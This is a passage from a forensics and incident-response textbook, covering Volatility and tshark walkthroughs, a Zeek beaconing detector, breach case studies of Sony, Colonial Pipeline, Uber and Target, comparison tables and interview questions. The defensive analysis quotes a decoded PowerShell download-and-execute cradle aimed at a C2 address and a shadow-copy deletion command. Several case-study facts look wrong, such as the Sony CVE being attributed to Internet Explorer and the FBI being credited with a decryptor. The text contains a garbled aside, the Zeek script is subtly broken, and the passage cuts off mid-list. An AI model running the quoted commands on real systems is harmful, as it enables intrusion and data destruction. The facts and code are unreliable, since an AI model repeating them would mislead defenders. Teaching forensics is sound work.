# Kernel Base: 0xf8000281a000
# Memory capture successful → 16 GB dump, no corruption

# Step 2: Scan for hidden/unlinked processes
python3 vol.py -f memory.raw windows.psscan

# psscan uses pool tag scanning (not process list) → finds hidden processes
# Compare with pslist (which uses the active process list)
# Hidden processes appear in psscan but NOT in pslist

# Step 3: Look for suspicious parent-child relationships
python3 vol.py -f memory.raw windows.pstree

# Key findings:
# WINWORD.EXE (PID 3100) spawned cmd.exe (PID 3420) → unusual
# cmd.exe spawned powershell.exe (PID 3456) → script execution
# powershell.exe has no child windows (GUI not visible) → hidden window
# PID 3456 has high handle count (500+) → active network operations

# Step 4: Extract command-line arguments
python3 vol.py -f memory.raw windows.cmdline --pid 3456

# Reveals encoded PowerShell command

# Step 5: Decode the Base64 command
echo "SQBFADAAKAA..." | base64 -d | iconv -f UTF-16LE -t ASCII
# Decoded: IEX (New-Object Net.WebClient).DownloadString('http://185.234.72.18/payload')

# Step 6: Find network connections
python3 vol.py -f memory.raw windows.netscan | Select-String "ESTABLISHED"

# Found: PID 3456 connected to 185.234.72.18:443 (C2)
# Found: PID 3456 connected to 192.168.1.50:445 (SMB lateral movement)
# Found: PID 3456 connected to 198.51.100.50:21 (FTP data exfiltration)

# Step 7: Check for injected code
python3 vol.py -f memory.raw windows.malfind --pid 3456

# Found 7 regions with PAGE_EXECUTE_READWRITE protection
# Dumped injected code to: pid.3456.0x2b0000.dmp

# Step 8: Check loaded DLLs
python3 vol.py -f memory.raw windows.dlllist --pid 3456

# Suspicious DLL found: C:\Users\jdoe\AppData\Temp\beacon.dll
# Normal path would be C:\Windows\System32\

# Step 9: Check handles
python3 vol.py -f memory.raw windows.handles --pid 3456

# Handles to:
# - Network socket handles (TCP connections)
# - File handles in C:\Users\jdoe\Documents\secrets\ (data staging)
# - Mutex: Global\MSOffice_16 (typical Cobalt Strike named pipe)

# Step 10: Extract process memory for further analysis
python3 vol.py -f memory.raw windows.memmap --pid 3456 --dump
# Output: pid.3456.dmp

# Scan with YARA
yara cobaltstrike_rules.yara pid.3456.dmp
# Match: CobaltStrike_Beacon at offset 0x2b0000

# Step 11: Dump injected code regions
python3 vol.py -f memory.raw windows.malfind --pid 3456 --dump
# Output: process.3456.0x2b0000.dmp, process.3456.0x310000.dmp, ...
```

### 11.4 Wireshark → Network Traffic Analysis Walkthrough


**Scenario:** Analyze a PCAP file to identify C2 communication and recover exfiltrated data.

```bash
# Step 1: Get summary statistics
tshark -r evidence/capture.pcap -z io,phs -q

# Output:
# =========================================================================
# Protocol Hierarchy Statistics
# Filter: 
# eth:::1.3M frames
#   ip:::1.2M frames
#     tcp:::1.1M frames
#       http:::245K frames
#       tls:::312K frames
#       smb:::89K frames
#     udp:::100K frames
#       dns:::45K frames

# Step 2: Identify top talkers
tshark -r evidence/capture.pcap -T fields -e ip.src -e ip.dst | sort | uniq -c | sort -rn | head -20

# Output:
# 245000 192.168.1.105,185.234.72.18  ← heavy traffic to C2
# 120000 192.168.1.105,13.107.4.52    ← Windows Update
# 89000  192.168.1.105,192.168.1.50   ← Internal server (lateral movement)

# Step 3: Extract HTTP objects (files transferred over HTTP)
tshark -r evidence/capture.pcap --export-objects http,/evidence/extracted_http/

# Files extracted:
# /evidence/extracted_http/payload.exe (342 KB)
# /evidence/extracted_http/status.png?session=abc123 (response, repeated every 60s)

# Step 4: Follow TCP stream of C2 connection
tshark -r evidence/capture.pcap -z follow,tcp,ascii,45 -q

# Shows the full conversation between victim and C2 server

# Step 5: Detect beaconing pattern
tshark -r evidence/capture.pcap -Y "ip.dst == 185.234.72.18" -T fields -e frame.time_epoch > c2_times.txt
python3 -c "
times = [float(l.strip()) for l in open('c2_times.txt')]
intervals = [times[i+1] - times[i] for i in range(len(times)-1)]
print(f'Total connections: {len(times)}')
print(f'Mean interval: {sum(intervals)/len(intervals):.1f}s')
print(f'Min: {min(intervals):.1f}s, Max: {max(intervals):.1f}s')
print(f'Std dev: {(__import__(\"statistics\").stdev(intervals)):.1f}s')
"
# Output suggests 60 second beacon interval with <5s jitter

# Step 6: Identify SMB lateral movement
tshark -r evidence/capture.pcap -Y "ip.dst == 192.168.1.50 and smb" -T fields -e frame.time_relative -e smb.cmd

# Shows: SMB commands between 14:45:00 and 14:50:00 → file copy operation

# Step 7: Detect FTP data exfiltration
tshark -r evidence/capture.pcap -Y "ip.dst == 198.51.100.50 and ftp" -T fields -e ftp.request.command -e ftp.request.arg

# Shows: USER, PASS, STOR secrets.7z → FTP upload of staged data
```

### 11.5 Zeek → Network Log Generation and Beaconing Detection


```bash
# Step 1: Generate Zeek logs from PCAP
zeek -r evidence/capture.pcap local

# Generates: conn.log, dns.log, http.log, ssl.log, files.log, notice.log, x509.log

# Step 2: Analyze conn.log for suspicious connections
zeek-cut ts id.orig_h id.resp_h id.resp_p proto service orig_bytes resp_bytes conn_state < conn.log | head -30

# Step 3: Analyze dns.log for DGA
zeek-cut ts query qtype rcode < dns.log | grep -v "windows.com\|google.com\|microsoft.com" | sort

# Step 4: Analyze http.log for C2 patterns
zeek-cut ts host method uri user_agent < http.log | grep -i "status.png\|checkin\|beacon"

# Step 5: Extract files transferred over network
cat files.log | zeek-cut tx_hosts rx_hosts mime_type filename
# SHA-256 extracted files for threat intel lookup

# Step 6: Create custom beaconing detection in Zeek
cat > beacon_detect.zeek << 'EOF'
module BeaconDetect;

export {
    redef enum Notice::Type += {
        Periodic_Connection
    };
    global connection_counts: table[addr, addr] of count &default=0;
    global first_seen: table[addr, addr] of time;
}

event connection_established(c: connection) {
    local src = c$id$orig_h;
    local dst = c$id$resp_h;
    
    if (dst !in first_seen[src])
        first_seen[src, dst] = network_time();
    
    connection_counts[src, dst] += 1;
    
    if (connection_counts[src, dst] == 20) {
        local elapsed = network_time() - first_seen[src, dst];
        if (elapsed > 120 && elapsed < 600) {
            NOTICE([$note=Periodic_Connection,
                    $msg=fmt("Beaconing detected: %s to %s, %d connections in %.0f seconds", src, dst, connection_counts[src, dst], elapsed),
                    $src=src]);
        }
    }
}
EOF

zeek -r evidence/capture.pcap beacon_detect.zeek
cat notice.log
# Output: Beaconing detected: 192.168.1.105 to 185.234.72.18, 20 connections in 120 seconds
```
# Chapter 8: Forensics & Incident Response

## 12. Case Studies

### 12.1 Sony Pictures Entertainment 2014


**Background:** In November 2014, Sony Pictures Entertainment suffered one of the most destructive cyber attacks in corporate history. The attack was attributed to the North Korean government (the "Guardians of Peace" or GOP group) in retaliation for the movie "The Interview," a comedy about the assassination of Kim Jong-un.

**Technical Attack Chain:**

| Phase | Detail | Forensic Evidence |
|-------|--------|-------------------|
| **Initial Access** | Spear-phishing emails sent to Sony executives (September 2014) | Email logs, attachments analyzed by FBI |
| **Persistence** | Backdoor installed on Windows domain controllers | Registry keys, service installation |
| **Lateral Movement** | Pass-the-Hash, PsExec, WMI to spread across network | Event ID 4624, 4648, SMB connections |
| **Data Theft** | 100+ TB of data exfiltrated over weeks | Network flow logs, large outbound transfers |
| **Destruction** | Disk wiper (Shamoon-like) destroyed MBRs on 3,000+ computers | MBR analysis → overwritten with "Hacked by #GOP" image |
| **Data Dump** | 100+ TB leaked via file-sharing sites | Torrent trackers logged release |

**Forensic Investigation (FBI + Mandiant):**

```
Evidence Collected:
- 3,000+ hard drive images (wd: actually wiped systems → only partial recovery)
- Domain controller memory dumps (captured AD state before wipe)
- Network flow data (Cisco NetFlow) since September 2014
- Email server logs (phishing email identification)
- Lateral movement paths reconstructed from Windows event logs

Key Forensic Findings:
1. Initial intrusion: Spear-phish → email with malicious link to "Pastebin-like" page
   Using IE vulnerability (CVE-2014-1761) → dropped backdoor

2. Backdoor: "BACKDOOR.PEARLPOP" → custom backdoor communicating via HTTPS
   Using stolen Sony code-signing certificate → bypassed security software

3. Lateral Movement:
   - Dumped lsass.exe memory via procdump
   - Extracted domain admin credentials
   - Used PsExec to install wiper across all systems
   - Timeline: initial access → data theft → wipe: 2 months dwell time

4. Data Theft:
   - Exfiltrated in small chunks over 7 weeks
   - Used HTTPS to multiple VPS servers worldwide
   - Total: 100+ TB including PII, financial data, unreleased films

5. Disk Wiper (Shamoon):
   - Overwrote MBR with GOP image
   - Overwrote data with raw bytes (not encrypted)
   - Forensically: MBR hex showed "HACKED BY #GOP"
   - Wiped ~75% of Sony's 3,000+ Windows servers and workstations

Timeline of Key Events (from FBI report):
- Sep 2014: Initial phishing emails sent to Sony executives
- Oct 2014: Attacker maintains access, maps network, escalates privileges
- Nov 2014: Data exfiltration begins (weeks of slow theft)
- Nov 21, 2014: Threats to release data appear on Sony systems
- Nov 24, 2014: Disk wiper activated → systems go dark
- Nov 25, 2014: Public data leak begins
- Dec 2014: FBI investigation begins
- Dec 19, 2014: "The Interview" released in limited theaters despite threats

IR Response Analysis:
- No CSIRT in place → Sony had no dedicated IR team
- No network segmentation → attackers moved freely
- No MFA on domain admin accounts
- No centralized logging → limited forensic visibility
- Response was chaotic → FBI had to lead the investigation
- Positive outcome: established the need for executive protection and cyber resilience

Lessons Learned:
1. Network segmentation is essential → the entire Sony network was flat
2. Monitor for unapproved code-signing (stolen certificates are invisible)
3. Endpoint detection on critical workstations (domain controllers)
4. MFA for ALL privileged accounts → no exceptions
5. Incident response plan must include: "What if we lose 3,000 computers simultaneously?"
6. Disk wiper threats require offline backups (not network-connected)
7. Executive email accounts need enhanced protection
```

### 12.2 Colonial Pipeline 2021


**Background:** On May 6, 2021, Colonial Pipeline → operator of the largest refined oil pipeline in the United States (5,500 miles, 2.5 million barrels/day) → was hit by a ransomware attack. The attack forced the company to shut down pipeline operations, causing fuel shortages across the US East Coast. The attack was attributed to the DarkSide ransomware group, a Russian-speaking cybercriminal organization.

**Technical Attack Chain:**

| Phase | Detail | Forensic Evidence |
|-------|--------|-------------------|
| **Initial Access** | VPN account compromise → legacy VPN not used for months, no MFA | VPN logs showed credential use from new IP |
| **Persistence** | DarkSide ransomware deployed on IT systems | Ransomware binary, encryption artifacts |
| **Lateral Movement** | Compromised credentials used to move from IT to OT-adjacent systems | Event logs, network connections |
| **Encryption** | ~100 GB of data encrypted across IT systems | Ransomware note, encrypted file extensions |
| **Extortion** | 100 GB of data exfiltrated before encryption | Data size reported in extortion note |
| **Shutdown** | Pipeline SCADA systems taken offline as precaution | Human decision to prevent OT impact |

**Forensic Investigation (Mandiant + FBI):**

```
Evidence Collected:
- VPN logs (Palo Alto firewall) → identified source IP
- Windows event logs from compromised servers
- DarkSide ransomware binary (recovered from encrypted system)
- Network flow data (Zeek logs on critical segments)
- Memory dumps from infected systems

Key Forensic Findings:

1. Initial Access (Root Cause Analysis):
   - VPN account for legacy "single sign-on" portal
   - Account had not been used for several months
   - No MFA enabled on this account (MFA existed but was optional)
   - Password potentially obtained from password dump (found in credential stuffing lists)
   - VPN connection from IP: 89.248.165.58 (known DarkSide C2 infrastructure)
   - Connection at 19:00 UTC, May 6, 2021

2. Lateral Movement Path:
   - VPN → IT Server → Domain Controller → Backup Server → Billing Systems
   - Used native Windows tools: PowerShell, PsExec, WMI
   - No custom malware → living-off-the-land techniques
   - Dwell time: <24 hours from VPN access to ransomware execution
   - This is FAST → attackers already had internal access knowledge

3. Ransomware Analysis (DarkSide):
   - RaaS (Ransomware-as-a-Service) model
   - Written in C++
   - Encrypts with AES-256, RSA-1024 for key protection
   - Adds extension: .dark
   - Deletes Volume Shadow Copies: vssadmin.exe delete shadows /all /quiet
   - 100 GB data exfiltrated before encryption (double extortion)
   - Ransom demand: ~$4.4 million (75 Bitcoin)

4. Payment and Decryption:
   - Colonial paid $4.4M in Bitcoin within hours of attack
   - FBI provided decryption tool weeks later (seized DarkSide servers)
   - Not all data was recoverable → backup restoration worked better
   - Actual recovery: primarily from offline backups, not decryption

5. Pipeline Shutdown Analysis:
   - IT and OT networks not properly air-gapped
   - Billing systems were on same network as operational controls
   - Decision to shut down: precautionary → no OT impact but risk was too high
   - Shutdown imperative: could not bill = could not pump
   - 5,500 miles of pipeline stopped for 6 days

IR Response Analysis:
- Responded within hours (ransomware specific IR playbook activated)
- Immediately involved FBI Cyber Division
- Engaged Mandiant for forensics
- Paid ransom (controversial, but approved by CEO and Board)
- Shut down pipeline rather than risk OT compromise

Lessons Learned (critical for US infrastructure):
1. MFA on ALL VPN access → no exceptions (recommendation from Biden Executive Order)
2. Air gap between IT and OT networks
3. Offline, immutable backups (tested regularly)
4. Ransomware playbook must address: "pay or not pay" decision tree
5. Pipeline bill = pipeline operations → billing availability affects physical operations
6. DarkSide's infrastructure was eventually taken down by international law enforcement
7. FBI should be contacted immediately → special ransomware task force available
8. US government issued Mandatory Pipeline Cybersecurity Requirements (TSA directive)
```

### 12.3 Uber 2022


**Background:** On September 15, 2022, Uber suffered a security breach where an attacker gained access to internal systems through social engineering. The attacker, allegedly an 18-year-old from the Lapsus$ hacking group, tricked an Uber employee into accepting a multi-factor authentication (MFA) prompt, granting initial access.

**Technical Attack Chain:**

| Phase | Detail | Forensic Evidence |
|-------|--------|-------------------|
| **Initial Access** | Social engineering of Uber employee by purchasing their stolen credentials on dark web | Employee Slack notification led to MFA prompt |
| **MFA Fatigue** | Attacker repeatedly sent MFA push notifications until employee accepted | Okta admin logs: 10+ MFA prompts in rapid succession |
| **Privilege Escalation** | Accessed internal VPN, then escalated to admin access via privileged accounts | VPN logs, AWS IAM role transitions |
| **Internal Pivot** | Gained access to: AWS console, GSuite, Slack, HackerOne bug tracker, vCenter | CloudTrail logs: role assumption changes |
| **Discovery** | Attacker posted "I'm a hacker and Uber has been breached" to internal Slack | Slack message logs |
| **Disruption** | Attacker changed Cloudflare DNS, accessed HackerOne vulnerability reports | Cloudflare audit log, HackerOne access log |

**Forensic Investigation (Uber Security + External Forensics):**

```
Evidence Collected:
- Okta authentication logs → traced MFA acceptance timeline
- AWS CloudTrail → full IAM activity reconstruction
- VPN connection logs → attacker IP and session duration
- Slack audit logs → post-compromise actions
- Endpoint logs → no malware found (pure credential-based)
- Dark web monitoring → discovery of employee credential for sale

Key Forensic Findings:

1. Initial Access:
   - Attacker purchased an Uber contractor's credentials on the dark web
   - Contractor's personal device was infected with info-stealer
   - Credential: username + password for Uber's internal VPN
   - Password was NOT rotated after initial setup (years old)
   - The password was found in multiple past breaches (Have I Been Pwned)

2. MFA Fatigue Attack:
   - Attacker attempted to log into Uber internal VPN
   - Uber used Okta MFA (2FA push notifications)
   - Attacker sent 10+ MFA push notifications in 30 minutes
   - Employee finally accepted "just to make it stop" (MFA fatigue)
   - Empathy note: employee at end of shift, thought it was a glitch
   - This is a well-documented attack technique (MITRE T1621: Multi-Factor Authentication Request Generation)

3. Privilege Escalation:
   - Once on VPN, accessed IT helpdesk tool
   - Found an admin's service account credentials in helpdesk scripts
   - Used these to access "Thycotic" → Uber's privileged access management (PAM) system
   - From Thycotic: extracted full admin credentials for:
     - AWS (AWS console access)
     - GSuite (Gmail, Google Drive)
     - VMware vCenter (virtual machine administration)
     - Slack admin account
     - HackerOne bug bounty program access

4. Scope of Access:
   - AWS: Full read access to S3 buckets, EC2 instances, RDS databases
   - GSuite: Email and Drive access for Uber employees
   - vCenter: Could create/delete VMs
   - HackerOne: Could view reported vulnerabilities (significant security concern)
   - Slack: Posted message to #general channel announcing breach

5. Actions Taken by Attacker:
   - Posted to internal Uber Slack: "I'm a hacker and Uber has been breached"
   - Changed Cloudflare DNS for internal services (minor disruption)
   - Downloaded ~49 GB of data (according to Uber's disclosure)
   - Screenshots of internal systems posted to social media

6. Containment Timeline:
   - T+0 minutes: Contractor accepted MFA prompt
   - T+5 minutes: Attacker accessed VPN
   - T+15 minutes: Privilege escalation to AWS admin
   - T+45 minutes: Slack message announcing breach
   - T+60 minutes: Uber security team began investigation
   - T+2 hours: Attacker's access revoked (Okta, VPN, AWS)
   - T+4 hours: Full containment confirmed
   
   Total breach window: ~2 hours

IR Response Analysis:
- Uber security team responded quickly once alerted
- Law enforcement contacted: FBI investigations
- Coordinated communication: CEO acknowledgment, public disclosure within 24 hours
- Hired Mandiant for independent forensic investigation
- No ransomware or data destruction
- Attacker alleged to be from Lapsus$ hacking group (linked to other tech breaches)

Lessons Learned:
1. MFA Fatigue is real → implement number matching or MFA conditional access policies
2. Employees need rest → end-of-shift MFA prompts more likely to be accepted erroneously
3. Credential rotation is critical → stale credentials are a liability
4. PAM systems must be locked down → helpdesk should not have access to PAM
5. Employee personal device security affects corporate security (credential theft from personal device)
6. Internal communication should have TTP (tools, techniques, procedures) sharing
7. HackerOne access should be limited → bug bounty program visibility is sensitive
8. CloudTrail and audit logs must be enabled everywhere → these were key to IR
```

### 12.4 Target 2013


**Background:** During the 2013 holiday season, Target suffered a massive data breach where attackers stole credit/debit card information for 40 million customers and personal information for 70 million customers. The forensic investigation traced the breach back to a third-party HVAC vendor's compromised credentials and POS malware. Total cost: $202 million in settlement and remediation.

**Technical Attack Chain (Full Forensic Reconstruction):**

| Phase | Detail | Forensic Evidence |
|-------|--------|-------------------|
| **Initial Access** | Spear-phish email sent to Fazio Mechanical (HVAC vendor), malware installed | Fazio's email logs, vendor system analysis |
| **Vendor Pivot** | Attackers used Fazio's credentials to access Target's vendor portal | Target's vendor portal logs |
| **Lateral Movement** | From vendor portal to Target internal network | Windows event logs, network connections |
| **EScalation** | Privilege escalation to domain admin | AD logs, group membership changes |
| **POS Identification** | Scanned network for POS systems (PIN pads in 1,797 stores) | Network scans, connection logs |
| **Payload Deployment** | Installed "Kaptoxa" POS malware on 88,000+ POS terminals | Malware analysis, file system artifacts |
| **Data Exfiltration** | Collected card data from POS memory, exfiltrated via FTP to Russian staging server | Zeek logs: large outbound data transfers |

**Forensic Investigation (Secret Service + Mandiant + Verizon):**

```
Evidence Collected:
- Fazio Mechanical's email server → identified phishing email
- Fazio's computer → forensic image, memory dump
- Target's AD domain controllers → full event log export
- 88,000+ POS system images → malware extraction
- Target's network flow data (November 27 → December 15, 2013)
- Fazio's VPN connection logs
- Memory dumps from compromised POS systems
- Stolen data samples from Russian staging server (provided by law enforcement)

Key Forensic Findings:

1. Fazio Mechanical Compromise:
   - Fazio was Target's HVAC vendor → had network access for billing and project management
   - Spear-phishing email in October 2013 to Fazio employee
   - Email contained malicious attachment (likely PDF exploit)
   - Infostealer malware installed on Fazio's Windows computer
   - Credentials stolen included: Fazio's Target vendor portal credentials

2. Initial Target Access:
   - November 12, 2013: Attackers used Fazio's credentials on Target's vendor portal
   - Portal was web-based ASP.NET application
   - Attackers pivoted from vendor portal to Target's corporate network
   - Network path: Internet → Vendor Portal → Target Corporate Network
   - This was NOT intended → vendor portal should have been segmented

3. Lateral Movement → Step by Step (Reconstructed from Event Logs):
   - Nov 12: First VPN connection from Fazio credentials → 2 hours
   - Nov 12-15: Reconnaissance → mapping network, identifying domain controllers
   - Nov 15: Credential dumping from a domain controller (procdump on lsass.exe)
   - Nov 18: Domain admin access achieved
   - Nov 20: Began scanning POS subnets
   - Nov 27: First POS malware deployed (3 stores)
   - Dec 2: Malware deployed to full POS fleet (1,797 stores)
   - Dec 12: Data exfiltration detected by firewall team
   - Dec 15: Secret Service notified

   Critical finding: Dwell time was 35 days (initial access to detection)

4. Kaptoxa POS Malware Analysis:
   - Custom malware (not commodity)
   - Written in C++ with modular architecture
   - RAM scraping technique: monitored memory of POS application process
   - Extracted track data from credit/debit cards during transaction processing
   - Track 1: cardholder name, PAN, expiration date, discretionary data
   - Track 2: PAN, expiration date, service code, PIN data (pre-EMV)
   - Data collected into temporary files, then exfiltrated via FTP
   - Staging server in Russia (IP traced to bulletproof hosting)
   - Exfiltration path: POS → Store Server → Corporate Network → FTP → Russia

5. Detection Failure Analysis:
   - FireEye appliance detected the malware on multiple POS systems
   - FireEye generated alerts on November 30 and December 2
   - Target's Bangalore SOC reviewed and dismissed the alerts as "false positives"
   - The FireEye screenshots of malware execution were never escalated
   - Secret Service investigation later confirmed: the FireEye findings were ACCURATE
   - Human error in SOC was the critical failure

6. Data Exfiltration Quantification:
   - 40 million unique credit/debit card numbers (Track 1 + Track 2)
   - 70 million customer PII records (name, address, email, phone)
   - Exfiltrated over 2 weeks from November 27 to December 15
   - Stolen cards sold on Rescator[.]cc carding marketplace
   - Estimated $200M+ in fraud losses

7. Root Cause → Technical and Organizational:
   - Network segmentation failure: vendor portal connected to corporate network
   - No MFA on vendor accounts
   - Antivirus on POS systems: expired signatures
   - POS systems: Windows XP Embedded (end of life)
   - SOC alert fatigue: dismissed critical alerts
   - No data loss prevention (DLP) on outbound traffic
   - No file integrity monitoring on POS systems
   - Third-party risk management was inadequate

IR Response Analysis:
- Discovered by US Secret Service (not Target's security team)
- Initial confusion: Secret Service notified Target's CEO at 2 AM
- Target's immediate response: POS malware cleanup (but already too late)
- Full containment took 72 hours
- CEO and CIO resigned within months
- 92 class-action lawsuits filed
- Total breach cost: $202 million
- Resulted in widespread EMV chip card adoption in the US

Lessons Learned (industry-transforming):
1. Network segmentation is non-negotiable → vendor networks MUST be isolated
2. Third-party risk management: audit vendors' security posture before granting access
3. POS security: EMV chip technology, point-to-point encryption, tokenization
4. SOC alert triage: every "critical" alert must be escalated → no false positives dismissed
5. MFA for ALL network access → no exceptions for vendors
6. File integrity monitoring on all critical systems
7. Data loss prevention on outbound traffic
8. Threat intelligence sharing: financial sector ISAC improved post-breach
9. Cybersecurity is a board-level issue, not just IT
```

---

## 13. Comparison Tables

### 13.1 Forensic Process Phases Comparison


| Phase | Goal | Input | Output | Tools | Time | Skill Level |
|-------|------|-------|--------|-------|------|-------------|
| **Identification** | Recognize evidence sources | Incident report, system listing | Evidence inventory log | nmap, lsblk, manual inspection | 30 min-2 hrs | Intermediate |
| **Preservation** | Maintain evidence integrity | Original evidence | Write-blocked copy, hashes | Write-blocker, sha256sum, certutil | 1-4 hrs | Intermediate |
| **Collection** | Acquire evidence | Preserved evidence | Forensic image, memory dump | dd, FTK Imager, LiME, WinPmem | 1-8 hrs | Advanced |
| **Examination** | Extract and prepare data | Forensic image | Recovered files, artifacts | Sleuth Kit, Autopsy, Bulk Extractor, Plaso | 4-24 hrs | Advanced |
| **Analysis** | Draw conclusions | Examined artifacts | Findings, timeline, attribution | Volatility, Wireshark, Plaso, RegRipper | 8-80 hrs | Expert |
| **Presentation** | Communicate findings | Analysis results | Report, testimony, visual aids | Python, PowerShell, Mermaid, Word | 4-40 hrs | Expert |

### 13.2 Disk vs Memory vs Network vs Mobile Forensics Comparison


| Aspect | Disk Forensics | Memory Forensics | Network Forensics | Mobile Forensics |
|--------|---------------|------------------|-------------------|------------------|
| **Evidence Lifetime** | Years (non-volatile) | Milliseconds to seconds | Hours to days | Days to years |
| **Acquisition Complexity** | Medium (write-blocker required) | High (must run on live system) | Low (passive capture) | High (encryption, lock screen) |
| **Data Volume** | 500 GB - 10 TB | 4 GB - 256 GB | 100 MB - 100 TB | 8 GB - 512 GB |
| **Primary Artifacts** | Files, deleted files, slack space, MFT, registry | Processes, network connections, DLLs, injected code | Packets, connections, protocols, files transferred | SMS, calls, contacts, apps, GPS, media |
| **Key Insight** | What files existed and when | What was running and where connected | What data went where | Who the user communicated with |
| **Can Recover Deleted Data?** | Yes (until overwritten) | No (lost on reboot) | Only if captured | Limited (flash wear) |
| **Impact on System** | None (with write-blocker) | Some (acquiring memory alters it) | None (passive) | Some (device may be altered) |
| **Tool Examples** | Sleuth Kit, Autopsy, FTK Imager, EnCase | Volatility 3, Rekall, Redline | Wireshark, Zeek, tcpdump, NetworkMiner | Cellebrite, Magnet AXIOM, ADB |
| **Legal Admissibility** | High (established methodology) | Medium (newer field) | Medium (chain of custody for logs) | High (established tool validation) |
| **Typical Analysis Time** | 1-5 days | 4-24 hours | 4-48 hours | 1-3 days |
| **Anti-Forensics** | Disk wiping, encryption, steganography | Process hiding, DKOM, API hooking | Encryption (TLS), proxy chains, TOR | Factory reset, encryption, remote wipe |

### 13.3 IR Lifecycle Crosswalk (NIST SP 800-61)


| Phase | Key Activities | Metrics | Typical Duration | Artifacts Produced |
|-------|---------------|---------|------------------|-------------------|
| **Preparation** | CSIRT formation, tools, playbooks, training | Time to deploy tools, tabletop frequency | Ongoing | IR plan, playbooks, team roster, tool inventory |
| **Detection & Analysis** | Alert triage, log review, IOC matching, severity classification | MTTD, alert volume, false positive rate | Minutes to hours (varies) | Incident ticket, initial findings, severity assessment |
| **Containment** | Network isolation, account disable, IP blocking, process kill | MTTC, containment effectiveness | 15 min to 4 hours | Containment log, network change records |
| **Eradication** | Malware removal, patch application, credential rotation | Eradication success rate | 1-24 hours | Eradication checklist, system scan results |
| **Recovery** | System restore from backup, service restoration, monitoring | MTTR, recovery completeness | 4-72 hours | Restoration records, monitoring dashboards |
| **Post-Incident** | Lessons learned, report writing, detection rule update | Time to report, rule update count | 1-5 days | Incident report, lessons learned, updated playbooks |

### 13.4 SIEM vs SOAR vs XDR Comparison


| Dimension | SIEM (Splunk, ELK, Sentinel) | SOAR (XSOAR, Splunk SOAR) | XDR (CrowdStrike, SentinelOne) |
|-----------|------------------------------|---------------------------|---------------------------------|
| **Core Function** | Log aggregation, correlation, alerting | Automated response workflows | Endpoint + network + cloud detection |
| **Data Sources** | Any log source (firewall, server, app, cloud) | SIEM alerts, ticketing, threat intel feeds | Agent-based endpoints, network sensors |
| **Detection Method** | Rule-based, Sigma correlation, UEBA | Playbook-driven decision trees | ML behavioral, cross-vector correlation |
| **Response** | Manual (alerts analyst) | Automated (playbook execution) | Automated (isolation, containment) |
| **Integration** | Integrates with almost everything | Integrates with SIEM and tools | Vendor-specific ecosystem |
| **Deployment** | On-prem or cloud | Cloud or hybrid | Cloud-managed (SaaS) |
| **Best For** | Compliance, centralized visibility | Repeative triage, multi-tool orchestration | Endpoint protection, auto-containment |
| **Limitation** | Alert fatigue, high operational cost | Requires playbook development | Vendor lock-in, narrow data scope |
| **Typical Cost** | $$$ (log volume pricing) | $$ (per-playbook or per-action) | $$$$ (per-endpoint licensing) |
| **Use Case Fit** | Compliance, reporting, threat hunting | SOC automation, IR playbooks | EDR replacement, real-time response |
| **Maturity Requirement** | Medium (needs log source management) | High (needs defined processes) | Low (turnkey deployment) |

### 13.5 Threat Hunting Methodology Comparison


| Approach | Description | When to Use | Example |
|----------|-------------|-------------|---------|
| **Hypothesis-Driven** | Start with a hypothesis based on threat intel | Known TTPs from threat groups | "Is APT29 using this technique in our environment?" |
| **IOC-Based** | Search for known indicators | Immediately after threat intel update | "Search for all systems contacting this C2 IP" |
| **Analytics-Driven** | ML/statistical anomaly detection | Large datasets, baseline deviation | "Unusual data transfer after business hours" |
| **Situational Awareness** | Based on recent organizational changes | New system deployment, M&A, policy changes | "New cloud deployment → are there misconfigurations?" |
| **Intel-Driven** | From threat intelligence reports | After high-profile vulnerability disclosure | "Is our Log4j patched → scan every system" |

---

## 14. Interview Corner

### Q1: What is the order of volatility and why is it important?


**Answer:** The Order of Volatility (OOV) is the sequence in which digital evidence must be collected, from most volatile to least volatile. It is based on the principle that the most volatile data (CPU registers, RAM) disappears fastest when a system is powered off, while the least volatile data (backups, archives) persists indefinitely. Collecting in the wrong order → for example, imaging the hard drive first → requires rebooting or running tools that will overwrite memory, destroying the most volatile evidence. The standard OOV is: (1) CPU registers/cache, (2) routing tables/ARP cache, (3) RAM/process memory, (4) temporary file systems, (5) disk storage, (6) removable media, (7) remote logs, (8) backups/archives, (9) physical documentation.

### Q2: What are the key differences between disk forensics and memory forensics?


**Answer:** Disk forensics analyzes non-volatile storage (hard drives, SSDs) to recover files, deleted files, and metadata. It can recover evidence even after a system has been powered off. Memory forensics analyzes volatile RAM to capture running processes, active network connections, loaded DLLs, injected code, and encryption keys. Memory forensics is critical for detecting fileless malware that never touches disk, rootkits that hide from the OS, and live C2 communication. The key difference is scope: disk shows what was installed, memory shows what was running. Many sophisticated attacks leave no disk trace but are visible in memory.

### Q3: Explain chain of custody and what happens if it is broken.


**Answer:** Chain of custody (CoC) is a formal chronological document that tracks every person who handles evidence, from collection to presentation in court. It includes: case identifier, item description, collection details, hash values, transfer log with signatures, storage conditions, and final disposition. If the CoC is broken → missing signatures, unexplained gaps in timeline, hash mismatches, unsecured storage → the evidence becomes legally inadmissible. The opposing counsel will file a motion to suppress, and the judge may exclude the evidence entirely. Even if no motion is filed, broken CoC destroys the jury's trust in the evidence's integrity. In civil cases, it can result in spoliation sanctions.

### Q4: How do you detect a rootkit during memory forensics?


**Answer:** Rootkits are detected through several Volatility 3 plugins and techniques:
1. **pslist vs psscan** → run both. Rootkits that DKOM-unlink from the process list appear in psscan (pool tag scanning) but not in pslist (active process list).
2. **modscan** → finds hidden kernel modules not visible to `lsmod`.
3. **ssdt** → checks System Service Descriptor Table for hooks. Rootkits often hook system calls by modifying SSDT entries.
4. **driverscan** → lists loaded drivers. Compare against known-good driver list.
5. **apihooks** → checks for IAT and inline hooks in process memory.
6. **malfind** → finds PAGE_EXECUTE_READWRITE memory regions (rootkit code injections).
7. **yarascan** → scan for known rootkit signatures.

### Q5: What is file carving and when would you use it?


**Answer:** File carving is the process of recovering files from raw disk data without using file system metadata, by matching file signatures (magic bytes). It is used when: (1) the file system is corrupted or formatted, (2) files have been deleted and their MFT/inode entries overwritten, (3) the disk has been intentionally wiped or partitioned, (4) extracting files from unallocated space, (5) recovering data from a damaged storage device. Carving tools like PhotoRec, Foremost, and Scalpel scan byte-by-byte for known file headers (JPEG: FF D8 FF, PDF: 25 50 44 46, ZIP: 50 4B 03 04) and extract everything between header and footer. Advanced carving can handle fragmented files, but success decreases with fragmentation level.

### Q6: What are the four phases of the NIST Incident Response lifecycle?


